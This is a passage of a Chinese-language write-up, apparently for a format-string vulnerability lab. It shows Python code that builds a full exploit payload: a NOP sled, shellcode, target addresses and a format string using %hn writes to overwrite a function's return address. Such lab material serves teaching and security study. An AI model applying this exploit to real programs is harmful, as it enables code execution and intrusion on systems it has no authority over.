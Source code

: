  
    - format string后面加上需要被改变的2字节值的地址，这里`content[48:56]`对应的就是栈上第40个偏移的位置。
  
      ```python
      content[48:56] = (s3_addr).to_bytes(8, byteorder='little')	# 6*8=48，所以从第48字节开始填起
      
      content[56:64] = (s1_addr).to_bytes(8, byteorder='little')
      content[64:72] = (s2_addr).to_bytes(8, byteorder='little')
      ```
  

完整payload:

$format\ string+NOP...NOP（对齐）+地址3+地址1+地址2+NOP*n+shellcode$

```python
N = 1500
# Fill the content with NOP's

content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target

shellcode = shellcode_64

# Put the shellcode somewhere in the payload

start = 1500-len(shellcode)
content[start:start + len(shellcode)] = shellcode

############################################################


buf_addr = 0x00007fffffffe3d0  # buffer起始地址

ebp_addr = 0x00007fffffffe310  # myprintf ebp的地址

ret_addr = ebp_addr + 0x8  # myprint return address


shell_code_addr = buf_addr + 1500 - len(shellcode)  # shellcode起始地址

# print('%#x'%shell_code_addr)

# 0x7fffffffe907


s1 = 0xe907  # shell_code_addr 0-16位

s1_addr = ret_addr
s2 = 0xffff  # 16-32位

s2_addr=ret_addr+0x2
s3 = 0x7fff  # 32-48位

s3_addr=ret_addr+0x4
# 最高12位全0


# format string

# 按照从小到大的顺序 0x7fff→0xe907→0xffff

s = "%." + str(0x7fff) + "x" + "%40$hn" + "%." + str(0xe907-0x7fff) + "x" + "%41$hn" + "%." + str(0xffff-0xe907) + "x" + "%42$hn"
fmt = (s).encode('latin-1')
# print("fmt:"+str(len(fmt)))
```
